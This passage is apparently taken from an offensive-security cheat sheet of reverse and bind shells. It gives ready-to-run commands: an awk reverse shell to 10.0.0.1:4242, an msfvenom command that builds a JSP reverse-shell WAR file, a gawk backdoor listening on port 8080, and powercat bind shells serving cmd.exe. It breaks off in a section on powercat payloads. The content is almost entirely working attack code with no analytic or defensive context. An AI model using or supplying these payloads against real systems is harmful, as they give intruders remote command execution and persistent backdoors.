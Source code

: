 ```
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

## <mark style="color:red;">WAR</mark>

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```

## <mark style="color:red;">GHAWK</mark>

```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

## <mark style="color:red;">Powercat</mark>

### <mark style="color:orange;">Powercat Bind Shells</mark>

```
powercat -l -p 443 -e cmd.exe
nc 10.11.0.22 443
```

### <mark style="color:orange;">Powercat Stand-Alone Payloads</mark>

In the context of powercat, a payload is a set of powershell instructions as well as the portion of the powercat script itself that only includes the features requested by the user
